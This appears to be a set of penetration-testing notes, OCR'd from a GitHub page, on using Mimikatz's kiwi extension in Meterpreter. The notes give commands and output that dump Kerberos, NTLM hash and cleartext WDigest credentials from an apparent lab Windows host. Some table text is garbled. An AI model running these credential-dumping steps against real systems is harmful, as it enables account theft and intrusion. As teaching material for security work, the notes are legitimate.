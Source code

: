 - I can be used to extract credentials, manipulate and abuse authentication mechanisms, and perform other post-exploitation activities on compromised machine.
- Metasploit has two versions of Mimikatz available as Meterpreter extensions: version 1.0 by loading the `mimikatz` extension.
- And the newer version 2.x by loading the `kiwi` extension. In this we talk about `kiwi`.

## Loading kiwi
```python
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.
```

## Listing the available commands 
```python
meterpreter > help kiwi

Kiwi Commands
=============

    Command       Description
    -------       -----------
    creds_all     Retrieve all credentials (parsed)
    creds_kerber  Retrieve Kerberos creds (parsed)
    os
    creds_livess  Retrieve Live SSP creds
------------------------------------SNIP-------------------------------------
```

## Retrieving the Kerberos credentials
```python
meterpreter > creds_kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

Username         Domain          Password
--------         ------          --------
(null)           (null)          (null)
Administrator    VAGRANT-2008R2  (null)
sshd_server      VAGRANT-2008R2  (null)
vagrant-2008r2$  WORKGROUP       (null)
```
- Note - Above command is not reliable becoz sometimes it's not even working.

## Retrieving the LM/NTLM hashes using the MSV authentication package
```python
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username       Domain          NTLM                              SHA1
--------       ------          ----                              ----
Administrator  VAGRANT-2008R2  e02bc503339d51f71d913c245d35b50b  c805f88436bcd9ff534ee86c59ed230437505ecf
sshd_server    VAGRANT-2008R2  8d0a16cfc061c3359db455d00ec27035  94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
```

## Retrieving cleartext credentials using mimikatz
# Pre-requisite - [[Local Security Authority Subsystem(LSASS)]]
```python
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username         Domain          Password
--------         ------          --------
(null)           (null)          (null)
Administrator    VAGRANT-2008R2  vagrant
VAGRANT-2008R2$  WORKGROUP       (null)
sshd_server      VAGRANT-2008R2  D@rj33l1ng
```

## Checking the version of mimikatz 
- the "kiwi_cmd" command is a plugin for Mimikatz
```python
meterpreter > kiwi_cmd version

mimikatz 2.2.0 (arch x64)
Windows NT 6.1 build 7601 (arch x64)
msvc 180031101 0
```

## Listing all the available modules
```python
meterpreter > kiwi_cmd ::
ERROR mimikatz_doLocal ; "" module not found !

        standard  -  Standard module  [Basic commands (does not require module name)]
          crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
             ngc  -  Next Generation Cryptography module (kiwi use only)  [Some commands to enumerate credentials...]
       privilege  -  Privilege module
----------------------------------SNIP---------------------------------------
```

## Query the available options for a spefic module
```python
meterpreter > kiwi_cmd sekurlsa::
ERROR mimikatz_doLocal ; "(null)" command of "sekurlsa" module not found !

Module :	sekurlsa
Full name :	SekurLSA module
Description :	Some commands to enumerate credentials...

             msv  -  Lists LM & NTLM credentials
         wdigest  -  Lists WDigest credentials
        kerberos  -  Lists Kerberos credentials
           tspkg  -  Lists TsPkg credentials
-------------------------------------SNIP-------------------------------------
```